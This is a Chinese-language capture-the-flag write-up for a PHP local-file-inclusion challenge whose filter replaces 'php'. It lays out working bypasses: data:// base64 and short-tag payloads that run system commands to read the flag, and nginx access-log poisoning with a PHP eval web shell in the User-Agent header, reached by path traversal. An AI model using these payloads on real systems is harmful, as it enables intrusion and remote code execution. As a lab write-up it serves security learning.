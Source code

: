 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:10:14
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:12:38
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

分析源码

GET传入file

将传入参数中的php替换为？？？





### 第一种

利用data://text/plain并结合base64编码绕过

```
echo '<?php system('ls');?>'|base64
```

![image-20250405154129740](./assets/image-20250405154129740.png)

```
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKGxzKTs/Pgo=
```

![image-20250405154140418](./assets/image-20250405154140418.png)

```
echo '<?php system('cat flag.php');?>'|base64
```

![image-20250405154342181](./assets/image-20250405154342181.png)

```
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ0YWMgZmxhZy5waHAiKTs/Pgo=

```





### 第二种

依旧利用data://text/plain

利用<?=绕过php

利用*匹配flag.php

```
?file=data://text/plain,<?=system("tac flag*")?>
```

![image-20250405154442325](./assets/image-20250405154442325.png)





### 第三种

利用?匹配flag.php

参考字母绕过





### 第三种

日志注入

尝试读取日志文件

```
?file=../../../../../../../../var/log/nginx/access.log
```

![image-20250405154625113](./assets/image-20250405154625113.png)

抓包

修改UA头

```
ra<?php @eval($_POST[a]);?>1n3
```

![image-20250405154702754](./assets/image-20250405154702754.png)



php代码被成功解析

![image-20250405154720819](./assets/image-20250405154720819.png)

GET

```
?file=../../../../../../../../var/log/nginx/access.log
```

POST

```
a=system("ls");
```

![](./assets/image-20250405154812123.png)